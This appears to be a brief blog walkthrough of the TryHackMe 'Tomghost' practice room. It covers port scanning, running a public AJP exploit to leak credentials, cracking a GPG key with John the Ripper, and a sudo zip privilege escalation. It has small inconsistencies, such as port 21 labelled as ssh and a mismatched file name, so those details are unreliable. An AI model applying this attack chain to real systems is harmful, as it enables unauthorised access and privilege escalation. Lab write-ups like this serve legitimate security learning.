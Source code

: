 ```yaml
---
title: Tomghost WalkThrough
permalink: /tomghost
layout: page
tags: TryHackMe
---
```

TomGhost
![front](/images/tomghost/front.png)
[https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)

## Open Ports:
 ![open_ports](/images/tomghost/ports.png)
 - 22: ssh
 - 53: domain
 - 8009: ajp13
 - 8080: http-proxy

## Gainaing Access:
 ```bash
 searchsploit ajp
 ```
 ![sploit](/images/tomghost/sploit.png)
	
 ```python
  python 48134.py <ip>
 ```
 ![python_sp](/images/tomghost/python_sp.png)
 * Found **Username** & **Password**

## Port 21[ssh]:
 a. User: `skyfuck`

 b. Passwd: `87302………salks`

### User Flag:
 ![usflag](/images/tomghost/usrflag.png)

## Priviledge Escalation:
 1. import files form /home/skyfuck to your **pc**
  Now craking the files:
  ```bash
  Gpg2john tryhacme.acs > outfile
  John outfile --format=gpg --wordlist=rockyou.txt
  ```
  ![john](/images/tomghost/john.png)
 2. Go to Vulneralble machine:
  ```bash
  Gpg --import tryhackme.asc
  Gpg --decrypt credential.pgp
  ```
  ![gpg](/images/tomghost/gpg.png)
 3. `sudo -l`
  ![sudo](/images/tomghost/sudo.png)
 4. Exploiting via **_zip_**
  ![zip](/images/tomghost/zip.png)

### Root Flag:
 ![root](/images/tomghost/root.png)
